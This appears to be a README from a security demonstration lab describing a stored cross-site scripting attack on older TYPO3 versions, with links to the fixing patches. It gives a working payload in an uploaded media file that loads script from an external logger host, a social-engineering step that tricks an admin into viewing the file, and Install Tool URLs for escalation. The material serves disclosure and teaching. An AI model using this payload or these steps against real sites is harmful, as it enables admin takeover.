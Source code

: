 # Maybe get Install Tool Access

## Attack

**Preparation**

This is just one possible example how to use cross-site scripting.
In this case manual interaction by some more privileged user is required (e.g. through social engineering).

* upload `hack.youtube` to file-list module

```
"></iframe><script src="http://typo3v9-hack.ddev.local/logger/log.js"></script><iframe src="
```

* start the social engineering part, e.g. admin shall check file, because "it's not working"
* (admin user has to check file details, e.g. via file-list module, *info* popup)

**Attacker is backend user (but not admin, yet)**

`http://typo3v9-hack.ddev.local/typo3/install.php?install[controller]=maintenance&install[context]=backend`

**Attacker does not have backend user account**

Requires existing & valid `typo3conf/ENABLE_INSTALL_TOOL` file.

`http://typo3v9-hack.ddev.local/typo3/install.php`

## Security Vulnerability

* Media Asset handling fixed in https://review.typo3.org/#/c/59100/
  + TYPO3 affected until v7.6.31, v8.7.21, v9.5.1
* Install Tool HTTP-only cookie fixed in https://review.typo3.org/#/c/59103/
  + TYPO3 affected until v7.6.31, v8.7.21, v9.5.1